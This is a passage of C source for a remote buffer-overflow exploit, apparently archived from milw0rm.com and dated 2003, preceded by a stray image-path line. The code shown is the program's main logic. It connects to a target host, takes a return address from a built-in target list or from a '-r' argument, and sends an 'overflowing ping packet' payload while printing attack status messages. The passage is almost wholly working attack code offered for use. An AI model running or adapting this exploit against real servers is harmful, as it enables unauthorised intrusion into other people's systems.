           printf("[*] ");
          if (!connect_server(argv[1])) return 1;
          printf("[ret=0x%x]..",ret);
          printf("sending payload..");

          // initial packet
          send_init_request(st);

          //a real overflowing ping packet
          send_ping_overflow(st,ret,argv[2],atoi(argv[3]));
          close(st);

          printf("done\n");
        }
        else {
          for(j = 0; j < sizeof(targets)/sizeof(struct target); j++) {
            printf("%02d - %s\n", j, targets[j].desc);
          }
          printf("\n");
        }
      }
      else if(strncmp(argv[4], "-r", 2) == 0) {
        if(argc == 6) {
          sscanf(argv[5], "%x", (unsigned int *)&ret);
          printf("[!] Attacking %s\n", argv[1]);

          printf("[*] ");
          if (!connect_server(argv[1])) return 1;
          printf("[ret=0x%x]..",ret);
          printf("sending payload..");

          // initial packet
          send_init_request(st);

          //a real overflowing ping packet
          send_ping_overflow(st,ret,argv[2],atoi(argv[3]));
          close(st);

          printf("done\n");
        }
      }
      return 0;
    }

    // milw0rm.com [2003-04-25]
